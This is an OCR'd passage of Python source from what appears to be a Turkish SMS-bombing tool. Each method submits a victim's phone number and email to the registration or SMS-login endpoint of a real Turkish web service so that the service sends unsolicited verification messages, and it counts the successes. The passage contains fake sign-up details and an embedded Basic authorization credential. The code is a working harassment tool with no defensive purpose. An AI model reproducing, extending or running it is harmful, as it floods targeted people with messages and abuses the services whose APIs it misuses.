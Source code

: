     
    #yapp.com.tr
    def Yapp(self):
        try:
            url = "https://yapp.com.tr:443/api/mobile/v1/register"
            json={"app_version": "1.1.2", "code": "tr", "device_model": "iPhone9,4", "device_name": "", "device_type": "I", "device_version": "15.7.8", "email": self.mail, "firstname": "Memati", "is_allow_to_communication": "1", "language_id": "1", "lastname": "Bas", "phone_number": self.phone, "sms_code": ""}
            r = requests.post(url=url, json=json, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> yapp.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> yapp.com.tr")
    
    
    #yilmazticaret.net
    def YilmazTicaret(self):
        try:
            url = "http://www.yilmazticaret.net:80/restapi2/register/"
            headers = {"Authorization": "Basic eWlsbWF6OnlpbG1hejIwMTkqKg=="}
            data = {"telefon": (None, f"0 {self.phone}"),"token": (None, "ExponentPushToken[eWJjFaN_bhjAAbN_rxUIlp]")}
            r = requests.post(url, headers=headers,  data=data, timeout=6)
            if r.json()["giris"] == "success":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> yilmazticaret.net")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> yilmazticaret.net")
    
    
    #yuffi.co
    def Yuffi(self):
        try:
            url = "https://api.yuffi.co/api/parent/login/user"
            json = {"phone": self.phone, "kvkk": True}
            r = requests.post(url, json=json, timeout=6)
            if r.json()["success"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.yuffi.co")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.yuffi.co")
            

    #beefull.com
    def  Beefull(self):
        try:
            url = "https://app.beefull.io:443/api/inavitas-access-management/signup"
            json={"email": self.mail, "firstName": "Memati", "language": "tr", "lastName": "Bas", "password": "123456", "phoneCode": "90", "phoneNumber": self.phone, "tenant": "beefull", "username": self.mail}
            requests.post(url, json=json, timeout=4)
            url = "https://app.beefull.io:443/api/inavitas-access-management/sms-login"
            json={"phoneCode": "90", "phoneNumber": self.phone, "tenant": "beefull"}
            r = requests.post(url, json=json, timeout=4)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> app.beefull.io")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> app.beefull.io")